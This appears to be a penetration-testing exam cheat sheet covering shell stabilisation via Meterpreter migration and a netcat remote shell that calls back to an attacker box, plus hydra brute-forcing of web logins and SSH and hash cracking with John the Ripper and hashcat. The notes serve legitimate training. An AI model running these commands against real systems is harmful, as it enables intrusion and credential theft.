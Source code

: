 __########### WARNING: METERPRETER IS RESTRICTED IN THE EXAM ###########__  
METHOD: Meterpreter
1. `meterpreter> ps`: Find all running processes on the box.
2. `meterpreter> migrate [pid]`: Migrate your unstable shell to another process e.g. `explorer.exe`.
3. Your shell should be stable now.  

__########### WARNING: METERPRETER IS RESTRICTED IN THE EXAM ###########__


METHOD: Transfer netcat
1. Set up listener on attacker box `nc -nvlp 4444`.
2. Transfer nc/nc.exe to /temp or a dir with write privileges.
3. Execute bind shell `nc 10.11.0.222 4444 -e /bin/bash`.
4. You are now connected in a separate process that is stable.

METHOD: Locate process-killing script and edit it.
1. Find the script that detects/triggers killing of the vulnerable service.
2. Edit the script so it won't kill the service.
3. Your shell should be stable now.


__Cracking Web Pages__

Basic Authentication (e.g. /xampp logins):
```bash
$ hydra -l [username] -P [password file] -s [port] [target] [method] [path]
$ hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 80 10.11.1.223 http-get /xampp
```

__Bruteforcing SSH__

Port 22 OPEN + You find a username via. enumeration, but no password / hash.
```bash
$  hydra -e nsr -l [user] -P /root/Desktop/wordlists/10_million_password_list_top_100000.txt [target] ssh -t 4  
```

__Cracking Hashes__

Useful Websites (has worked before):
* https://hashkiller.co.uk/Cracker/NTLM

John the Ripper (worked in labs):
```bash
# This requires you to have an /etc/shadow and /etc/passwd pair.
# Example:
#   /etc/paswd  => bob:x:500:500::/home/bob:/bin/bash
#   /etc/shadow => bob:$1${salt}${pass}:16903:0:99999:7:::
$ unshadow passwd shadow > hashes.txt
$ john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Hashcat:
```
$ hashcat -h | grep -i [hash you want to crack]     # find hash input number
$ hashcat -m 5600 /path/to/hash /path/to/wordlist   # 5600 = specify NTLMv2 hash
```

